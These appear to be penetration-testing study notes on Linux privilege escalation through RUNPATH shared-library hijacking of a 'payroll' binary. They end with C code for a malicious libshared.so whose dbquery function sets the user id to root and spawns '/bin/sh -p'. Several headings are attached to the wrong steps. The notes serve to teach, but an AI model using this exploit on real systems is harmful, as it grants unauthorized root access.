 Programs and binaries under development usually have custom libraries associated with them.

##### Example: `payroll`
```Shell
ls -la payroll
```

#### Use `ldd` to print the shared object required by a binary or shared object
```Shell
ldd payroll
```
![[Pasted image 20230310115752.png]]
We see a non-standard library named `libshared.so` listed as a dependency for the binary. It is possible to load shared libraries from custom locations.

#### Use readelf utility to determine if the `RUNPATH` configuration is set for the binary's library
```Shell
readelf -d payroll  | grep PATH
```
The configuration allows the loading of libraries from the `/development` folder, which is writable by all users.

This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files)

```Shell
ls -la /development/
```

#### Find the function name called by the binary
```Shell
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```Shell
ldd payroll
```
![[Pasted image 20230310115830.png]]
Running `ldd` against the binary lists the library's path as /development/libshared.so, which means that it is vulnerable.

```Shell
./payroll
```
![[Pasted image 20230310115909.png]]
Executing the binary throws an error stating that it failed to find the function named `dbquery`

#### Copy an existing library to the development folder
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called
